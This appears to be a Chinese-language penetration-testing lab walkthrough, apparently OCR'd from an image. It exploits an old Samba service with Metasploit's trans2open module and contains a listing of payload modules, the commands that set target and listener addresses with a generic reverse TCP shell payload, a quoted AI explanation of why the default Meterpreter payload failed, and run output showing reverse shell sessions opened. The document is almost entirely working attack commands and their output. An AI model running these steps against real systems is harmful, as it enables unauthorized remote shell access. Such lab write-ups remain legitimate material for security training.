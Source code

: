 ```
   2   payload/generic/shell_bind_aws_ssm                .                normal  No     Command Shell, Bind SSM (via AWS API)
   3   payload/generic/shell_bind_tcp                    .                normal  No     Generic Command Shell, Bind TCP Inline
   4   payload/generic/shell_reverse_tcp                 .                normal  No     Generic Command Shell, Reverse TCP Inline
   5   payload/generic/ssh/interact                      .                normal  No     Interact with Established SSH Connection
   6   payload/generic/tight_loop                        .                normal  No     Generic x86 Tight Loop
   7   payload/linux/x86/adduser                         .                normal  No     Linux Add User
   8   payload/linux/x86/chmod                           .                normal  No     Linux Chmod
   9   payload/linux/x86/exec                            .                normal  No     Linux Execute Command
   10  payload/linux/x86/meterpreter/bind_ipv6_tcp       .                normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   11  payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid  .                normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   12  payload/linux/x86/meterpreter/bind_nonx_tcp       .                normal  No     Linux Mettle x86, Bind TCP Stager
   13  payload/linux/x86/meterpreter/bind_tcp            .                normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   14  payload/linux/x86/meterpreter/bind_tcp_uuid       .                normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
```



设置参数

```
msf6 exploit(linux/samba/trans2open) > set RHOSTS 10.10.10.101 
RHOSTS => 10.10.10.101
msf6 exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > set LHOST 10.10.10.10 
LHOST => 10.10.10.10
```

默认的 **payload** 模块是 **linux/x86/meterpreter/reverse_tcp**，使用该模块无法利用成功，修改为 **payload/generic/shell_reverse_tcp** 模块可以利用成功。下面是 AI 的解释：

- 默认的 `linux/x86/meterpreter/reverse_tcp` 需要目标系统具备兼容的运行时环境（如动态链接库、内存布局等），而旧版 Samba 服务（如 2.2.x）可能运行在较老或特定配置的 Linux 系统上，导致 Meterpreter 无法正确加载或执行。
- `generic/shell_reverse_tcp` 是一个更基础的反向 Shell，仅依赖 TCP 连接和系统默认的 `/bin/sh`，对目标环境的要求更低，因此兼容性更强。



开始执行

```
msf6 exploit(linux/samba/trans2open) > run 
[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] 10.10.10.101:139 - Trying return address 0xbffffdfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffcfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffbfc...
[*] 10.10.10.101:139 - Trying return address 0xbffffafc...
[*] 10.10.10.101:139 - Trying return address 0xbffff9fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff8fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff7fc...
[*] 10.10.10.101:139 - Trying return address 0xbffff6fc...
[*] Command shell session 1 opened (10.10.10.10:4444 -> 10.10.10.101:1052) at 2025-02-24 14:08:02 +0000

[*] Command shell session 2 opened (10.10.10.10:4444 -> 10.10.10.101:1053) at 2025-02-24 14:08:04 +0000
```